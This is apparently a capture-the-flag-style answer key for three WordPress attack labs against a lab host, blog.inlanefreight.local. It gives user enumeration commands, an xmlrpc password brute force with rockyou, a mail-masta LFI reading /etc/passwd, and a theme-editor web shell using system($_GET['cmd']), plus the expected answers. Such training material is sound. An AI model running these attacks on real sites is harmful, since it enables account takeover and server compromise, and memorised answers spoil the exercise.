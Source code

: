 ### Lab 1: User Enumeration
**Question:** "Perform user enumeration against http://blog.inlanefreight.local. Aside from admin, what is the other user present?"

**Solution:**
```bash
# Method 1: WPScan user enumeration
wpscan --url http://blog.inlanefreight.local --enumerate u

# Method 2: Manual author enumeration
for i in {1..10}; do
  curl -s "http://blog.inlanefreight.local/?author=$i" | grep -i "author"
done

# Method 3: REST API enumeration
curl -s "http://blog.inlanefreight.local/wp-json/wp/v2/users" | jq '.[].slug'

# Expected answer: john
```

### Lab 2: Password Brute Force
**Question:** "Perform a login bruteforcing attack against the discovered user. Submit the user's password as the answer."

**Solution:**
```bash
# WPScan brute force attack
wpscan --password-attack xmlrpc \
  -t 20 \
  -U john \
  -P /usr/share/wordlists/rockyou.txt \
  --url http://blog.inlanefreight.local

# Alternative smaller wordlist for faster results
wpscan --password-attack xmlrpc \
  -U john \
  -P /usr/share/wordlists/fasttrack.txt \
  --url http://blog.inlanefreight.local

# Expected answer: firebird1
```

### Lab 3: System User Discovery
**Question:** "Using the methods shown in this section, find another system user whose login shell is set to /bin/bash."

**Solution:**
```bash
# Exploit mail-masta LFI to read /etc/passwd
curl -s "http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd" | grep "/bin/bash"

# Alternative: Use theme editor web shell
# 1. Login with john:firebird1
# 2. Add system($_GET['cmd']); to 404.php
# 3. Execute: ?cmd=cat /etc/passwd
curl "http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=cat+/etc/passwd" | grep "/bin/bash"

# Expected answer: ubuntu (or similar system user)
```
